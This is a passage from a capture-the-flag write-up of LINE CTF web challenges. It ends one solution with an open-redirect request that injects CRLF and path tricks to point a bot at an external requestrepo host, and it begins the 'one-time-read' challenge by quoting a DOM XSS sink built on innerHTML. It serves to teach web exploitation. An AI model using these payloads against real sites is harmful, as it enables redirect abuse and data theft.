 So this is server-side React, and our error will be passed to `${props.errorCode}`. We will abuse the href functionality of React, because if we use `../../` we can get to `/`, then if we use whitespace we can force an invalid path that will get stripped, but that still starts with `/`, and then we can use `//` to force the href to redirect to our server, because the browser will interpret a link that starts with `//` as an absolute path on the same protocol. So the final payload will look like:

```
GET /rdr?errorCode=../../%0d%0a/06sjnkhn.requestrepo.com HTTP/1.1
```

We just have to get the race condition right, and we can get the flag.

**LINECTF{7320a1b512380dd4e0452f9fc3166201}**

<a name="one-time-read"></a>
## one-time-read (305 pts, 8 solves) - Web

Description:
```
Please make sure that your exploit can work on local environment perfectly before submitting it to the real server to avoid spamming!

One Time Read is an internal tool to store some secret messages as a note. Note is protected with passcode and will be immediately deleted after you read it. How secure!

Internal addresses:

Internal note: http://msg.line.ctf

Report page: http://bot.line.ctf

Bot Public URL:

server1: http://34.84.238.214/

server2: http://34.85.53.84/
```

We are given a web server written in node.js and a bot that we can send to line.ctf domains. The goal is to get the flag from an internal note. Thing is, we don't have access to `msg.line.ctf` so we cannot create notes ourselves.

First thing that we need to do is to get the note ID of the flag. That is pretty easy, since there's an XSS in the bot frontend:
```js
function fillAlert(name, msg) {
    if (msg) {
        document.getElementById(name).innerHTML = msg;
        document.getElementById(name).style = "display:block";
    }
}
window.onload = () => {
    const urlParams = new URLSearchParams(window.location.search);
    fillAlert('error', urlParams.get('error'));
    fillAlert('success', urlParams.get('success'));
};
```
